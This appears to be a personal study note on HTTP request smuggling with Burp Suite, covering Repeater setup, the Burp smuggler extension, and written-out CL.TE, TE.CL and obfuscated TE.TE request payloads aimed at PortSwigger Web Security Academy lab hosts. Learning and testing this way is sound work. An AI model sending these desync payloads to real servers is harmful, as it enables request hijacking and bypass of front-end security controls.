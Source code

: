 # Switch Burp Repeater to HTTP/1
Manually switch protocols in **Burp Repeater -> Inspector Panel -> Request attributes section**
# Performing the Attack
## Preparing Burp for Request Smuggling
1. Find request for root page and send to Repeater
2. Downgrade HTTP protocol to HTTP/1.1 (Inspector tab on right)
3. Change Request Method to POST by right-clicking
4. Disable automatic update of Content-Length (settings icon next to 'Send')
5. Show non-printable characters (option at top-right of Request section)
6. Send the request normally to ensure it is properly working

## Detecting the Vulnerability
![Pasted image 20250501090652.png](Cybersecurity/Screenshots/Pasted%20image%2020250501090652.png)
## Confirming the Vulnerability
![Pasted image 20250501090918.png](Cybersecurity/Screenshots/Pasted%20image%2020250501090918.png)
- Send the request twice, and the first should be status 200, and second status 403 forbidden
- Ensure there are two `\r\n` after the end of the second request
### CL.TE Example
```
POST / HTTP/1.1 
Host: host.website.here.com
Connection: keep-alive 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 6 
Transfer-Encoding: chunked 

0 

G
```
- Send it twice
- The second response should say: `Unrecognized method GPOST`.
### TE.CL Example
```
POST / HTTP/1.1

Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c

GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1

0


```
- Ensure `\r\n\` is showing twice after the final `0`
- Send it twice and the second response should say: `Unrecognized method GPOST`.
## TE.TE
There are potentially endless ways to obfuscate the `Transfer-Encoding` header. For example:
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space] Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked

Transfer-Encoding: chunked
Transfer-Encoding: cow
```
- Necessary to find some variation of the `Transfer-Encoding` header such that only one of the front-end or back-end servers processes it, while the other server ignores it.
- Depending on whether it is the front-end or the back-end server that can be induced not to process the obfuscated `Transfer-Encoding` header, the remainder of the attack will take the same form as for the CL.TE or TE.CL
- Ensure there are two `\r\n` after the `0` of the second request

Example Request to send a `GPOST` request:
```
POST / HTTP/1.1
Host: 0a9900a6047482318574918700b40052.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
# Burp Smuggling Extension
For more advanced use watch the [video](https://portswigger.net/research/http-desync-attacks), and check out the [documentation](https://github.com/PortSwigger/http-request-smuggler).
1. Right click on a request and click 'Launch Smuggle probe'
2. Ensure 'permute: badsetupLF' is checked
3. Go to 'Target' tab of Burp (at the top)
4. Select the site you are querying
5. Go to the 'Contents' section of this site to see all requests
6. Go to the 'Issues' section to view any issues
7. Select 'Request 1' to see the issue with the first request
8. Right-click the request and select 'Smuggle attack'
9. A new window will pop up. If you scroll down, you'll see the `GET /hopefull404 HTTP/1.1` request
10. Select 'Attack' button at the bottom
11. Observe the 404 error, and a 200 status request previously with the payload in the data, click 'Halt' at the bottom to pause, then 'Configure' to exit
12. We can go back to the window where we saw the `GET` request section, and we can replace that with any other request we want
	- We can intercept other `GET` requests from other pages, go back to our smuggle request, and paste other `GET` requests into this section (only paste the `GET` and `HOST` section, and keep the `X-ignore` header when pasting)
13. We click 'Attack' again, and we can observe the request was successful